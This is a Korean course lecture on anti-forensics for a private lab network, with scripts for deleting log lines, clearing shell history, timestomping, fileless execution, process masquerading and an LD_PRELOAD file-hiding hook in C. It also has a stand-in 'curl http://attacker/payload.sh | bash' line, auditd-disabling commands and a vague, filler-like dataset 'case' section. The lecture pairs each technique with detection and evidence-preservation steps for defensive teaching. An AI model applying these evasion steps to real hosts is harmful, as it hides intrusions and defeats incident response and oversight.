

# Week 11: 안티포렌식 — 로그 삭제, 타임스탬프 조작, 메모리 전용 공격

## 학습 목표
- **안티포렌식(Anti-Forensics)**의 개념과 APT에서의 활용을 이해한다
- **로그 삭제 및 조작** 기법으로 공격 흔적을 제거하는 방법을 실습할 수 있다
- **타임스탬프 조작**(timestomping)으로 파일 시간 정보를 변조할 수 있다
- **메모리 전용(fileless) 공격**의 원리를 이해하고 디스크에 흔적을 남기지 않는 기법을 실습할 수 있다
- **디스크 안티포렌식**(파일 와이핑, 슬랙 스페이스)의 원리를 이해한다
- 안티포렌식에 대응하는 **포렌식 기법**을 이해하고 증거 보전 방법을 설명할 수 있다
- MITRE ATT&CK Defense Evasion의 안티포렌식 관련 기법을 매핑할 수 있다

## 전제 조건
- Linux 파일 시스템(inode, 타임스탬프, 로그 구조)을 이해하고 있어야 한다
- 시스템 로그(syslog, auth.log, journalctl)의 구조를 알고 있어야 한다
- 기본 메모리 구조(프로세스, 가상 메모리)를 이해하고 있어야 한다
- 셸 스크립트와 Python 기초를 할 수 있어야 한다

## 실습 환경

| 호스트 | IP | 역할 | 접속 |
|--------|-----|------|------|
| bastion | 10.20.30.201 | 실습 기지 | `ssh ccc@10.20.30.201` |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 안티포렌식 실습 대상 | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (로그 무결성 검증) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:35 | 안티포렌식 이론 + 분류 | 강의 |
| 0:35-1:10 | 로그 삭제/조작 실습 | 실습 |
| 1:10-1:20 | 휴식 | - |
| 1:20-1:55 | 타임스탬프 조작 실습 | 실습 |
| 1:55-2:30 | 메모리 전용 공격 실습 | 실습 |
| 2:30-2:40 | 휴식 | - |
| 2:40-3:10 | 포렌식 대응 + 종합 실습 | 실습 |
| 3:10-3:30 | ATT&CK 매핑 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: 안티포렌식 이론 (35분)

## 1.1 안티포렌식 분류

| 카테고리 | 기법 | 목적 | ATT&CK |
|---------|------|------|--------|
| **로그 삭제** | auth.log, syslog 삭제/절삭 | 행위 기록 제거 | T1070.002 |
| **로그 조작** | 특정 행 삭제, 시간 변조 | 타임라인 혼란 | T1070.002 |
| **타임스탬프** | touch, timestomp | 파일 시간 변조 | T1070.006 |
| **파일 삭제** | rm, shred, wipe | 악성 파일 제거 | T1070.004 |
| **메모리 전용** | fileless malware | 디스크 흔적 없음 | T1059 |
| **암호화** | 증거 암호화 | 분석 방해 | T1027 |
| **스테가노그래피** | 데이터 은닉 | 증거 은닉 | T1001.002 |
| **히스토리 삭제** | .bash_history 클리어 | 명령 기록 제거 | T1070.003 |
| **프로세스 은닉** | rootkit, LD_PRELOAD | 실행 은닉 | T1014 |

## 1.2 Linux 주요 로그 파일

| 로그 파일 | 내용 | 공격자 목적 |
|----------|------|-----------|
| `/var/log/auth.log` | SSH 인증, sudo 기록 | 접속 흔적 제거 |
| `/var/log/syslog` | 시스템 전반 이벤트 | 서비스 조작 은닉 |
| `/var/log/wtmp` | 로그인 기록 (바이너리) | 접속 기록 삭제 |
| `/var/log/btmp` | 실패 로그인 (바이너리) | 브루트포스 은닉 |
| `/var/log/lastlog` | 최종 로그인 (바이너리) | 마지막 접속 위장 |
| `~/.bash_history` | 셸 명령 기록 | 명령 은닉 |
| `/var/log/apache2/` | 웹 서버 접근 로그 | 웹 공격 은닉 |
| `/var/log/suricata/` | IDS 알림 | 탐지 기록 제거 |

---

# Part 2: 로그 삭제와 조작 (35분)

## 실습 2.1: 로그 삭제 기법과 탐지

> **실습 목적**: 다양한 로그 삭제/조작 기법을 실습하고, 각 기법의 탐지 가능성을 확인한다
>
> **배우는 것**: 로그 파일 삭제, 특정 행 제거, 바이너리 로그 조작, 셸 히스토리 클리어를 배운다
>
> **결과 해석**: 로그가 삭제/조작된 후에도 SIEM에 원본이 남아있으면 포렌식 가능이다
>
> **실전 활용**: Red Team은 흔적 제거를, Blue Team은 증거 보전을 위해 이 지식을 활용한다
>
> **명령어 해설**: sed로 특정 행 삭제, cat /dev/null로 내용 비우기, shred로 안전 삭제를 수행한다
>
> **트러블슈팅**: 로그 서버(SIEM)로 전달된 로그는 로컬 삭제로 제거 불가하다

```bash
# 로그 삭제 기법 시뮬레이션 (교육용 임시 파일 사용)
echo "=== 로그 삭제 기법 시뮬레이션 ==="

# 임시 로그 파일 생성
mkdir -p /tmp/af_demo
cat > /tmp/af_demo/auth.log << 'LOG'
Mar 25 10:00:01 web sshd[1234]: Accepted publickey for admin from 10.20.30.201
Mar 25 10:05:23 web sshd[1235]: Accepted password for attacker from 10.20.30.201
Mar 25 10:10:45 web sudo: attacker : TTY=pts/0 ; PWD=/home ; USER=root ; COMMAND=/bin/bash
Mar 25 10:15:00 web sshd[1236]: Accepted publickey for admin from 10.20.30.100
Mar 25 10:20:00 web cron[1237]: (root) CMD (/usr/bin/backup.sh)
LOG

echo "[원본 로그]"
cat /tmp/af_demo/auth.log

echo ""
echo "[기법 1] 특정 행 삭제 (sed)"
# 'attacker' 포함 행만 삭제
sed -i '/attacker/d' /tmp/af_demo/auth.log
echo "결과:"
cat /tmp/af_demo/auth.log

echo ""
echo "[기법 2] 파일 내용 비우기"
cp /tmp/af_demo/auth.log /tmp/af_demo/auth2.log
cat /dev/null > /tmp/af_demo/auth2.log
echo "파일 크기: $(wc -c < /tmp/af_demo/auth2.log) 바이트"

echo ""
echo "[기법 3] 안전 삭제 (shred)"
echo "sensitive data" > /tmp/af_demo/evidence.txt
shred -u -z -n 3 /tmp/af_demo/evidence.txt 2>/dev/null
ls -la /tmp/af_demo/evidence.txt 2>/dev/null || echo "파일 완전 삭제됨"

echo ""
echo "[기법 4] 셸 히스토리 클리어"
echo "  export HISTFILE=/dev/null   # 세션 기록 비활성"
echo "  history -c                  # 현재 세션 기록 삭제"
echo "  unset HISTFILE              # 파일 저장 중지"
echo "  cat /dev/null > ~/.bash_history  # 기록 파일 비우기"

echo ""
echo "=== 탐지 포인트 ==="
echo "1. 로그 파일 크기 갑작스러운 감소 (Wazuh FIM)"
echo "2. 로그 시퀀스 번호 불연속"
echo "3. 시스템 시간과 로그 시간 불일치"
echo "4. SIEM에 원본 로그 존재 (로컬 삭제 무의미)"

rm -rf /tmp/af_demo
```

---

# Part 3: 타임스탬프 조작 (35분)

## 3.1 Linux 파일 타임스탬프

| 타임스탬프 | 약어 | 의미 | 변경 조건 |
|-----------|------|------|----------|
| **Access Time** | atime | 마지막 읽기 | 파일 읽기 시 |
| **Modify Time** | mtime | 마지막 내용 변경 | 파일 쓰기 시 |
| **Change Time** | ctime | 마지막 메타데이터 변경 | chmod, chown 시 |
| **Birth Time** | btime | 파일 생성 시간 | 생성 시 (ext4) |

## 실습 3.1: 타임스탬프 조작과 탐지

> **실습 목적**: touch, debugfs 등으로 타임스탬프를 조작하고, 조작 흔적을 탐지하는 방법을 배운다
>
> **배우는 것**: atime/mtime 조작, ctime 조작의 한계, inode 기반 탐지를 배운다
>
> **결과 해석**: stat 명령으로 조작 전후의 타임스탬프를 비교하여 변조를 확인한다
>
> **실전 활용**: 포렌식에서 파일 타임라인 분석 시 타임스탬프 조작 가능성을 고려해야 한다
>
> **명령어 해설**: touch -t는 atime/mtime을, debugfs는 ctime까지 변경할 수 있다
>
> **트러블슈팅**: ctime은 일반 도구로 변경 불가하며, 커널 레벨 조작이 필요하다

```bash
# 타임스탬프 조작 실습
echo "=== 타임스탬프 조작 실습 ==="

# 테스트 파일 생성
echo "malware payload" > /tmp/ts_test.txt
echo "[원본 타임스탬프]"
stat /tmp/ts_test.txt | grep -E "Access|Modify|Change|Birth"

echo ""
echo "[기법 1] touch로 atime/mtime 조작"
# 2023년 1월 1일로 변경 (공격 전 날짜로 위장)
touch -t 202301010000 /tmp/ts_test.txt
echo "조작 후:"
stat /tmp/ts_test.txt | grep -E "Access|Modify|Change"
echo "→ atime/mtime은 변경되었지만 ctime은 현재 시간으로 갱신됨!"

echo ""
echo "[기법 2] 참조 파일의 타임스탬프 복사"
# 정상 파일의 타임스탬프를 악성 파일에 복사
touch -r /etc/hostname /tmp/ts_test.txt
echo "참조 파일 복사 후:"
stat /tmp/ts_test.txt | grep -E "Access|Modify|Change"

echo ""
echo "[탐지 방법]"
echo "1. ctime은 touch로 변경 불가 → atime/mtime과 ctime의 불일치 탐지"
echo "2. inode 번호와 생성 시간 비교"
echo "3. ext4 저널에서 원본 타임스탬프 복구 가능"
echo "4. Wazuh FIM(File Integrity Monitoring)으로 변경 탐지"

rm -f /tmp/ts_test.txt
```

---

# Part 4: 메모리 전용 공격과 포렌식 대응 (35분)

## 4.1 Fileless 공격

Fileless(메모리 전용) 공격은 디스크에 파일을 쓰지 않고 **메모리에서만 실행**되는 공격이다.

| 기법 | 설명 | 예시 | ATT&CK |
|------|------|------|--------|
| **메모리 실행** | 코드를 메모리에 직접 로드 | memfd_create, 반사적 DLL | T1620 |
| **인터프리터 악용** | Python, PowerShell 등 | python -c 'malicious_code' | T1059 |
| **프로세스 주입** | 정상 프로세스 메모리에 주입 | ptrace, LD_PRELOAD | T1055 |
| **커널 메모리** | 커널 모듈 동적 로드 | insmod, kmod | T1547.006 |

## 실습 4.1: 메모리 전용 실행 시뮬레이션

> **실습 목적**: 디스크에 흔적을 남기지 않는 메모리 전용 공격 기법을 시뮬레이션한다
>
> **배우는 것**: Python/bash 인라인 실행, /dev/shm 활용, memfd_create의 원리를 배운다
>
> **결과 해석**: /proc에서만 확인 가능하고 디스크에 파일이 없으면 fileless 성공이다
>
> **실전 활용**: APT가 EDR/안티바이러스를 우회하기 위해 fileless 기법을 사용한다
>
> **명령어 해설**: python3 -c로 인라인 코드 실행, /dev/shm은 RAM 기반 파일시스템이다
>
> **트러블슈팅**: 메모리 포렌식(volatility)으로 탐지 가능하다

```bash
echo "=== 메모리 전용 공격 시뮬레이션 ==="

echo ""
echo "[기법 1] Python 인라인 실행 (디스크 파일 없음)"
python3 -c "
import subprocess
result = subprocess.run(['id'], capture_output=True, text=True)
print(f'실행 결과: {result.stdout.strip()}')
print('디스크에 Python 스크립트 파일이 존재하지 않음')
"

echo ""
echo "[기법 2] /dev/shm (RAM 파일시스템) 활용"
echo '#!/bin/bash
echo "RAM에서 실행: $(hostname) ($(id))"' > /dev/shm/.hidden_script
chmod +x /dev/shm/.hidden_script
/dev/shm/.hidden_script
echo "  /dev/shm 파일: $(ls -la /dev/shm/.hidden_script 2>/dev/null)"
echo "  재부팅 시 자동 삭제됨 (RAM 기반)"
rm -f /dev/shm/.hidden_script

echo ""
echo "[기법 3] 파이프 기반 실행 (파일 생성 없음)"
echo 'echo "파이프 실행: $(whoami)@$(hostname)"' | bash

echo ""
echo "[기법 4] curl + 파이프 (원격 코드 실행)"
echo "  curl -s http://attacker/payload.sh | bash"
echo "  (디스크에 payload.sh가 저장되지 않음)"

echo ""
echo "=== 탐지 방법 ==="
echo "1. /proc/[pid]/exe → (deleted) 표시 시 fileless 의심"
echo "2. /proc/[pid]/maps → 비정상 메모리 매핑"
echo "3. /proc/[pid]/cmdline → 인라인 코드 실행 패턴"
echo "4. 메모리 포렌식: volatility3, LiME"
echo "5. auditd: execve 시스템 콜 모니터링"
```

## 실습 4.2: 포렌식 대응과 증거 보전

> **실습 목적**: 안티포렌식에 대응하여 증거를 수집하고 보전하는 포렌식 기법을 배운다
>
> **배우는 것**: 메모리 덤프, 디스크 이미징, 로그 수집, 타임라인 분석의 포렌식 절차를 배운다
>
> **결과 해석**: 안티포렌식 기법에도 불구하고 증거를 복구할 수 있으면 포렌식 대응 성공이다
>
> **실전 활용**: 인시던트 대응(IR) 시 증거 보전과 분석에 직접 활용한다
>
> **명령어 해설**: dd로 디스크 이미징, /proc에서 프로세스 정보 수집을 수행한다
>
> **트러블슈팅**: 증거 수집은 시스템 변경을 최소화하면서 수행해야 한다

```bash
echo "=== 포렌식 대응 + 증거 보전 ==="

echo ""
echo "[1] 휘발성 증거 수집 (메모리 우선)"
echo "--- 현재 프로세스 ---"
ps aux --sort=-%mem 2>/dev/null | head -10

echo ""
echo "--- 네트워크 연결 ---"
ss -tnp 2>/dev/null | head -10

echo ""
echo "--- /dev/shm 확인 (RAM 디스크) ---"
ls -la /dev/shm/ 2>/dev/null | head -10

echo ""
echo "[2] 로그 무결성 확인"
echo "--- auth.log 최근 기록 ---"
tail -5 /var/log/auth.log 2>/dev/null || echo "접근 불가"
echo "--- 로그 파일 크기 변화 ---"
ls -la /var/log/auth.log /var/log/syslog 2>/dev/null

echo ""
echo "[3] 타임스탬프 이상 탐지"
echo "--- 최근 수정된 시스템 파일 ---"
find /etc /usr/bin /usr/sbin -mmin -60 -type f 2>/dev/null | head -10

echo ""
echo "[4] SIEM 교차 검증"
ssh ccc@10.20.30.100 \
  "echo '--- Wazuh FIM 알림 ---'; grep 'integrity' /var/ossec/logs/alerts/alerts.json 2>/dev/null | tail -3 | python3 -c '
import sys,json
for l in sys.stdin:
    try:
        d=json.loads(l); print(f\"  {d.get(\\\"rule\\\",{}).get(\\\"description\\\",\\\"?\\\")[:60]}\")
    except: pass' 2>/dev/null || echo '  FIM 알림 없음'" 2>/dev/null

echo ""
echo "=== 증거 보전 원칙 ==="
echo "1. 휘발성 순서: 메모리 → 네트워크 → 프로세스 → 디스크"
echo "2. 증거 무결성: 해시(SHA256) 기록"
echo "3. 보관 연속성(Chain of Custody)"
echo "4. 원본 보존: 이미지 복사본으로 분석"
```

## 실습 4.3: 프로세스 은닉 기법

> **실습 목적**: 실행 중인 악성 프로세스를 탐지하기 어렵게 은닉하는 기법을 배운다
>
> **배우는 것**: 프로세스명 변경, LD_PRELOAD를 이용한 은닉, /proc 조작의 원리를 배운다
>
> **결과 해석**: ps aux에서 프로세스가 정상 프로세스로 위장되면 은닉 성공이다
>
> **실전 활용**: APT의 지속성 유지와 탐지 회피에 사용되는 고급 기법이다
>
> **명령어 해설**: exec -a로 프로세스명을 변경하고, LD_PRELOAD로 라이브러리를 주입한다
>
> **트러블슈팅**: /proc/[pid]/exe는 원본 바이너리를 가리키므로 완전 은닉은 어렵다

```bash
echo "=== 프로세스 은닉 기법 ==="

echo ""
echo "[기법 1] 프로세스명 변경 (argv[0])"
# 백그라운드 프로세스를 정상 이름으로 위장
bash -c 'exec -a "[kworker/0:1-events]" sleep 10' &
HIDDEN_PID=$!
echo "  위장된 프로세스:"
ps aux | grep "$HIDDEN_PID" | grep -v grep
kill $HIDDEN_PID 2>/dev/null

echo ""
echo "[기법 2] 숨김 디렉토리 활용"
echo "  mkdir -p /tmp/...       # 점 3개 디렉토리 (ls에서 간과)"
echo "  mkdir -p /dev/shm/.X11  # 정상 X11 캐시처럼 위장"
echo "  mkdir -p /var/tmp/.ICE  # 정상 임시 파일처럼 위장"

echo ""
echo "[기법 3] LD_PRELOAD 라이브러리 은닉"
cat << 'LD_PRELOAD_DEMO'
원리:
  LD_PRELOAD 환경변수에 악성 공유 라이브러리를 지정하면,
  모든 프로세스에서 해당 라이브러리의 함수가 우선 호출됨.

  예: readdir() 함수를 후킹하여 특정 파일/프로세스를 숨김
      → ls, ps 명령이 악성 파일/프로세스를 표시하지 않음

코드 (교육용):
  // evil_lib.c
  #define _GNU_SOURCE
  #include <dirent.h>
  #include <dlfcn.h>
  #include <string.h>
  struct dirent *readdir(DIR *dirp) {
      static struct dirent *(*orig_readdir)(DIR *) = NULL;
      if (!orig_readdir) orig_readdir = dlsym(RTLD_NEXT, "readdir");
      struct dirent *d;
      while ((d = orig_readdir(dirp)) != NULL) {
          if (strstr(d->d_name, "malware") == NULL) return d;
          // "malware" 포함 파일명 숨김
      }
      return NULL;
  }

사용:
  gcc -shared -fPIC -o /tmp/.evil.so evil_lib.c -ldl
  export LD_PRELOAD=/tmp/.evil.so
  ls /tmp/  # malware 포함 파일이 보이지 않음!

탐지:
  1. /etc/ld.so.preload 파일 확인
  2. /proc/[pid]/maps에서 비정상 라이브러리
  3. env | grep LD_PRELOAD
  4. ldd 바이너리 출력 비교
LD_PRELOAD_DEMO

echo ""
echo "[기법 4] 커널 수준 rootkit 원리"
echo "  LKM(Loadable Kernel Module) rootkit:"
echo "  → sys_call_table 후킹으로 커널 레벨에서 은닉"
echo "  → getdents() 후킹 → 파일 은닉"
echo "  → sys_read() 후킹 → /proc 내용 변조"
echo "  → kill() 후킹 → 프로세스 보호"
echo ""
echo "  탐지: rkhunter, chkrootkit, LKRG(커널 무결성)"
echo "  대응: 부팅 가능한 외부 미디어에서 검사"
```

## 실습 4.4: 안티포렌식 종합 시나리오

> **실습 목적**: 공격의 전체 흔적을 체계적으로 제거하는 종합 안티포렌식 시나리오를 실행한다
>
> **배우는 것**: 다층 안티포렌식 기법의 조합과 각 기법의 한계점을 배운다
>
> **결과 해석**: 로컬 증거가 최대한 제거되었으나 SIEM에 원본이 남아있는지 확인한다
>
> **실전 활용**: Red Team의 OPSEC 관리와 Blue Team의 증거 보전 양면에서 활용한다
>
> **명령어 해설**: 로그, 히스토리, 타임스탬프, 임시 파일의 정리를 종합 수행한다
>
> **트러블슈팅**: SIEM으로 전달된 로그는 로컬에서 제거할 수 없다

```bash
echo "============================================================"
echo "       안티포렌식 종합 시나리오                                "
echo "============================================================"

echo ""
echo "[Phase 1] 공격 흔적 목록화"
echo "  흔적 유형          위치                    제거 방법"
echo "  ─────────────────────────────────────────────────────"
echo "  SSH 로그인          /var/log/auth.log       sed 행 삭제"
echo "  명령 히스토리       ~/.bash_history          cat /dev/null"
echo "  웹 요청 로그       /var/log/apache2/        sed 행 삭제"
echo "  악성 파일          /tmp/, /dev/shm/         shred + rm"
echo "  네트워크 연결       ss/netstat               프로세스 종료"
echo "  Suricata 알림      fast.log                 원격 삭제"
echo "  Wazuh 알림         alerts.json              ★제거 불가★"

echo ""
echo "[Phase 2] 흔적 제거 시뮬레이션 (교육용)"
echo "  # 1. 히스토리 비활성화"
echo "  unset HISTFILE"
echo "  export HISTSIZE=0"
echo ""
echo "  # 2. 로그에서 특정 IP 제거"
echo "  sed -i '/10.20.30.201/d' /var/log/auth.log"
echo ""
echo "  # 3. 악성 파일 안전 삭제"
echo "  shred -u -z -n 3 /tmp/exploit.sh"
echo ""
echo "  # 4. 타임스탬프 복원"
echo "  touch -r /etc/hostname /path/to/modified_file"
echo ""
echo "  # 5. 임시 파일 정리"
echo "  rm -rf /tmp/.*hidden* /dev/shm/.*"

echo ""
echo "[Phase 3] 제거 불가능한 증거 (포렌식 관점)"
echo "  1. SIEM에 전달된 로그 (원격 서버)"
echo "  2. 네트워크 패킷 캡처 (SPAN/TAP)"
echo "  3. ext4 저널 (삭제 파일 복구 가능)"
echo "  4. swap 영역 (메모리 내용 잔류)"
echo "  5. inode 테이블 (삭제된 파일 메타데이터)"
echo "  6. /proc 스냅샷 (메모리 덤프)"
echo "  7. auditd 로그 (커널 수준 기록)"

echo ""
echo "[Phase 4] SIEM 교차 검증"
ssh ccc@10.20.30.100 \
  "echo 'SIEM에 보존된 증거 수:' && wc -l < /var/ossec/logs/alerts/alerts.json 2>/dev/null || echo 'N/A'" 2>/dev/null

echo ""
echo "============================================================"
echo "  결론: 완전한 안티포렌식은 불가능하다.                       "
echo "  SIEM + 네트워크 캡처 + 메모리 포렌식 = 증거 복구 가능     "
echo "============================================================"
```

---

## 검증 체크리스트

| 번호 | 검증 항목 | 확인 명령 | 기대 결과 |
|------|---------|----------|----------|
| 1 | 로그 행 삭제 | sed -i | 특정 행 제거 |
| 2 | 로그 비우기 | cat /dev/null | 0바이트 |
| 3 | 안전 삭제 | shred | 파일 복구 불가 |
| 4 | 히스토리 클리어 | HISTFILE | 기록 무효화 |
| 5 | 타임스탬프 조작 | touch -t | atime/mtime 변경 |
| 6 | ctime 한계 | stat | ctime 변경 불가 확인 |
| 7 | fileless 실행 | python -c | 디스크 파일 없음 |
| 8 | /dev/shm 활용 | RAM 실행 | 재부팅 시 삭제 |
| 9 | 포렌식 수집 | 증거 수집 | 5항목 이상 수집 |
| 10 | SIEM 교차검증 | Wazuh | 로컬 삭제 불구 보존 |

---

## 과제

### 과제 1: 안티포렌식 vs 포렌식 매트릭스 (개인)
이번 주 학습한 모든 안티포렌식 기법에 대해, 각각의 포렌식 대응 방법을 매핑하는 매트릭스를 작성하라. 안티포렌식의 성공 조건과 탐지 방법을 포함할 것.

### 과제 2: 인시던트 대응 SOP (팀)
안티포렌식이 적용된 공격에 대한 인시던트 대응 표준 운영 절차(SOP)를 작성하라. 증거 수집 순서, 보전 방법, 분석 도구, 보고 양식을 포함할 것.

### 과제 3: Fileless 공격 탐지 규칙 (팀)
메모리 전용 공격을 탐지하기 위한 auditd/Wazuh 규칙 5개를 작성하라. 각 규칙의 탐지 로직, 예상 오탐, 튜닝 방안을 설명할 것.

---

## 실제 사례 (WitFoo Precinct 6 — Exploit Development)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Exploit Development* 학습 항목 매칭.

### Exploit Development 의 dataset 흔적 — "shellcode + ROP"

dataset 의 정상 운영에서 *shellcode + ROP* 신호의 baseline 을 알아두면, *Exploit Development* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — memory corruption.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | shellcode + ROP |
| 정량 baseline | memory corruption |
| 학습 매핑 | buffer overflow + ROP |

**자세한 해석**: buffer overflow + ROP. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | shellcode + ROP 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Exploit Development = shellcode + ROP 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — memory corruption.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: lab simple ROP.


---

## 부록: 학습 OSS 도구 매트릭스 (Course13 Attack Advanced — Week 11 안티포렌식 / 흔적 은닉·복구 방지)

> 이 부록은 lab `attack-adv-ai/week11.yaml` (15 step + multi_task) 의 모든 명령을 실제로
> 붙여 넣어 실행할 수 있도록 도구·옵션·예상 출력·해석을 한 곳에 모은 통합 참조다.
> Red Team 의 흔적 은닉 (T1070/T1027/T1014/T1497) + Blue Team 의 무결성·탐지 (DET 표준) 을
> 양면으로 다룬다.

### lab step → 도구 매핑 표

| step | 학습 항목 | 핵심 OSS 도구 / 명령 | ATT&CK | Blue 탐지 |
|------|----------|---------------------|--------|-----------|
| s1 | 포렌식 아티팩트 인벤토리 | `last`, `wtmp`, `auth.log`, `stat`, `find -mtime` | T1070 (전체) | AIDE / Tripwire baseline |
| s2 | 셸 히스토리 조작 | `unset HISTFILE`, `history -c`, `ln -s /dev/null ~/.bash_history` | T1070.003 | auditd `execve` 룰 |
| s3 | 타임스탬프 조작 (timestomp) | `touch -t YYYYMMDDhhmm`, `touch -r ref`, `debugfs` | T1070.006 | `ctime > mtime` 비교, Sleuth Kit `istat` |
| s4 | 선택적 로그 삭제 | `sed -i /pattern/d`, `awk !/.../`, truncate `>` | T1070.002 | rsyslog 원격, hash chain |
| s5 | Fileless 실행 | `curl \| bash`, `python3 -c`, `/dev/shm`, `memfd_create` | T1059 / T1620 | EDR memory scan, Sysmon EID 1 |
| s6 | 안전 삭제 (secure delete) | `shred -vfz -n 3`, `dd if=/dev/urandom`, `wipe`, `srm` | T1070.004 | 디스크 free-space carving (PhotoRec) |
| s7 | utmp/wtmp 조작 | `utmpdump`, `wtmpclean`, `python utmp` | T1070.002 | auth.log 와 wtmp cross-check |
| s8 | 프로세스 은닉 | `exec -a [kworker/0:1]`, `LD_PRELOAD libprocesshider.so`, `unshare --mount` | T1014 | rkhunter / chkrootkit, `unhide-linux` |
| s9 | auditd 회피 | `auditctl -D`, `service auditd stop`, `> audit.log` | T1562.006 | `auditctl -e 2` immutable, audisp-remote |
| s10 | 디스크 안티포렌식 | `cryptsetup luksFormat`, `tune2fs -O ^has_journal`, `fstrim` | T1486 / T1562 | hardware write blocker + dc3dd 즉시 이미징 |
| s11 | 네트워크 안티포렌식 | `macchanger -r eth0`, `proxychains4`, `wireguard`, Tor | T1090 / T1573 | NetFlow/JA3, Zeek `ssl.log` |
| s12 | 메모리 포렌식 회피 | `volatility`/`vol3` linux_pslist + 회피 (memfd 의 `[deleted]`) | T1497 | LiME/AVML 즉시 덤프, Volatility plugin |
| s13 | 안티포렌식 탐지 (Blue) | AIDE, Tripwire, OSSEC, auditd, Sysmon-Linux | DEFEND | 무결성 baseline + alert |
| s14 | 윤리·정리 | shred + 가상 머신 스냅샷 / IRB 동의서 | - | RoE 문서 보관 |
| s15 | Forensic Readiness 체크리스트 | rsyslog TLS, audit immutable, AIDE cron, IR runbook | NIST SP 800-86 | 분기별 mock IR drill |
| s99 | 통합 다단계 (s1→s2→s3→s4→s5) | Bastion plan (subagent shell·history·timestomp·sed·fileless) | 다중 | 단계별 alert 누적 비교 |

> **읽는 법**: lab 의 `script:` 와 `bastion_prompt:` 가 똑같이 사용하는 명령이며,
> 학생이 (a) 실제 본문 명령을 직접 실행 (b) bastion_prompt 를 ai 에이전트에 던져 자동 수행
> (c) 두 경로의 출력 차이를 비교 — 모두 가능하다.

### 학생 환경 준비 (안티포렌식 + 포렌식 도구 풀세트)

```bash
# === [Red] 안티포렌식 도구 ===
# shred / wipe / srm — 안전 삭제
sudo apt install -y secure-delete wipe coreutils
which shred srm wipe

# utmpdump — wtmp/utmp 텍스트 변환
sudo apt install -y util-linux acct
utmpdump --help | head -5

# macchanger — MAC 변조
sudo apt install -y macchanger
macchanger --help | head -3

# proxychains4 + tor — 네트워크 회피
sudo apt install -y proxychains4 tor
sudo systemctl start tor
ss -tlnp | grep 9050   # SOCKS

# debugfs — ext4 inode 조작 (timestomp ctime)
sudo apt install -y e2fsprogs
which debugfs

# memfd_create 헬퍼 (fileless)
cat > /tmp/memfd_demo.c << 'C'
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
int main(){int fd=memfd_create("ghost",0); dprintf(fd,"#!/bin/sh\nid\n"); fchmod(fd,0755);
char p[64]; sprintf(p,"/proc/self/fd/%d",fd); execl(p,"ghost",NULL);}
C
gcc /tmp/memfd_demo.c -o /tmp/memfd_demo

# LOLBins (이미 시스템 도구) — curl wget python3 perl awk
which curl wget python3 perl awk

# === [Red] 프로세스 은닉 도구 ===
# libprocesshider — LD_PRELOAD readdir 후킹 PoC
git clone https://github.com/gianlucaborello/libprocesshider /tmp/lph
cd /tmp/lph && make
# 사용: 차후 `evil_script` 라는 이름의 프로세스를 ps 출력에서 숨김

# unhide / unhide-tcp — 은닉된 프로세스 탐지 (Blue 측)
sudo apt install -y unhide

# === [Blue] 포렌식 도구 ===
# AIDE — Advanced Intrusion Detection Environment (파일 무결성)
sudo apt install -y aide
sudo aideinit         # baseline 생성 (수십초)
sudo cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db

# Tripwire — 또 다른 FIM (선택)
sudo apt install -y tripwire

# OSSEC HIDS — 호스트 이상 탐지 (선택, 무거움)
# https://www.ossec.net 참조

# Volatility 3 — 메모리 포렌식
sudo apt install -y python3-pip
pip3 install volatility3

# LiME — Linux 메모리 덤프 LKM
sudo apt install -y linux-headers-$(uname -r) build-essential
git clone https://github.com/504ensicsLabs/LiME /tmp/lime
cd /tmp/lime/src && make
# 산출: lime-<kernel>.ko

# Sleuth Kit — 디스크 분석 (mtime/atime/ctime)
sudo apt install -y sleuthkit
which istat ils fls mactime

# PhotoRec / TestDisk — 카빙 (slack space 복구)
sudo apt install -y testdisk

# auditd — 시스템콜 감사
sudo apt install -y auditd audispd-plugins
sudo systemctl enable --now auditd
sudo auditctl -l       # 현재 룰 (없으면 비어있음)

# Sysmon for Linux (선택, MS) — 프로세스/파일/네트워크 이벤트 통합
# https://github.com/Sysinternals/SysmonForLinux

# rsyslog TLS — 원격 로그 (Forensic Readiness)
sudo apt install -y rsyslog-gnutls
```

각 도구가 **lab 의 어느 step 에서** 활성화되는지 명시적으로 매핑된다. s1 의 `stat`/`last` 만 사전 설치 없이 동작하고, s6 의 `wipe` / s11 의 `macchanger`/`tor` / s12 의 `volatility3` 는 위 설치가 선행되어야 한다.

### 핵심 도구별 상세 사용법

#### 도구 1: shred — 안전 삭제 (Step 6)

```bash
# 기본 — 3-pass 덮어쓰기 + zero fill (DoD 5220.22-M)
echo 'sensitive data — credit card 4242-4242-4242-4242' > /tmp/secret.txt
shred -vfz -n 3 /tmp/secret.txt
# -v verbose / -f force / -z 마지막 0 fill / -n 3 3회 random pass

# 출력 예
# shred: /tmp/secret.txt: pass 1/4 (random)...
# shred: /tmp/secret.txt: pass 2/4 (random)...
